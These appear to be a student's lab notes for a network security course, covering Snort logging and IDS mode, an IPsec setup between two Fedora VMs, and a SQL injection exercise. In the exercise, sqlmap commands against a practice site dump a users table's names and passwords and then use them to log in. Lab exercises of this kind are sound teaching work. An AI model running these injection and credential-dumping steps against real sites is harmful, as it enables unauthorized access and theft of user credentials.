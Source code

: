 


LOGGER MODE:
sudo snort -l /var/log/snort/ -b -h <ip self or others ip>

ls -l /var/log/snort






IDS MODE:
snort -d -l /var/log/snort/ -c /etc/snort/snort.conf -i enp4s0

ls -l /var/log/snort/

			OR

sudo snort -A console -c /etc/snort/snort.conf  -> ping selfip



ls -l /var/log/snort


sudo tcpdump -r snort.log.651621561         //file name will be different


EXP7 KALI LINUX: OMIT

EXP8 SQL INJECTION:

sudo apt-get install sqlmap
sqlmap -h

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users --columns
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -C uname --dump
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -C pass --dump


now visit website and enter obtained name and pass to login


EXP9 ipsec 2person:
OPEN FEDORA IN VM ON BOTH PC 

system-config-network
service network restart

go to device select first device and click edit at top then 
	select statically set ip addresses:
	ADD IP OF your 192.168.7.46  and similary for pc2 192.168.7.47
	SUBNET 255.255.0.0
	THEN OK

go to ipsec click add at top 
	enter name same for both pc as kbd(u set any name of ur choice)
	auto encrpyt
	host2host
	add simple key 123456
	remote ip = 192.168.7.47 and in 2nd pc 192.168.7.46
	apply
